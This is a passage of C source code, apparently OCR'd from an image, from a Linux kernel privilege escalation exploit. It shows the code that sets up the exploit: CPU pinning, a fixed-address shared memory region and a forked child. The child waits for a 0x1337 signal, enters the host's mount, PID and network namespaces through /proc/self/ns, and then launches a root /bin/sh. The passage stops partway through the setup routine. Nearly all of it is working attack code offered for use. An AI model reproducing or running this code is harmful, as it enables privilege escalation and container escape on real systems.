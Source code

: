 ```
void release_pipe(void)
{
    close(g_pipe.fd[PIPE_WRITE]);
    close(g_pipe.fd[PIPE_READ]);
}

// Our child waits to be given super powers and then drops into shell
void child_exec(void)
{
    // Change our taskname 
    if (prctl(PR_SET_NAME, TARGET_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    while (1)
    {
        if (*(int *)g_shmem == 0x1337)
        {
            sleep(3);
            info("Child dropping into root shell...");
            if (setns(open("/proc/self/ns/mnt", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/pid", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/net", O_RDONLY), 0) == -1) { err("`setns()`"); }
            char *args[] = {"/bin/sh", NULL, NULL};
            execve(args[0], args, NULL);
        }

        else { sleep(2); }
    }
}

// Set-up environment for exploit
void setup_env(void)
{
    // Make sure a page is a page and we're not on some bullshit machine
    long page_sz = sysconf(_SC_PAGESIZE);
    if (page_sz != 4096L)
    {
        err("Page size was: %ld", page_sz);
    }

    // Pin to CPU 0
    pin_cpu(0);
    info("Pinned process to core-0");

    // Increase FD limit
    increase_fds();

    // Create shared mem
    g_shmem = mmap(
        (void *)0x1337000,
        page_sz,
        PROT_READ | PROT_WRITE,
        MAP_ANONYMOUS | MAP_FIXED | MAP_SHARED,
        -1,
        0
    );
    if (g_shmem == MAP_FAILED) { err("`mmap()` failed"); }
    info("Shared memory @ 0x%lx", g_shmem);

    // Create child
    g_child = fork();
```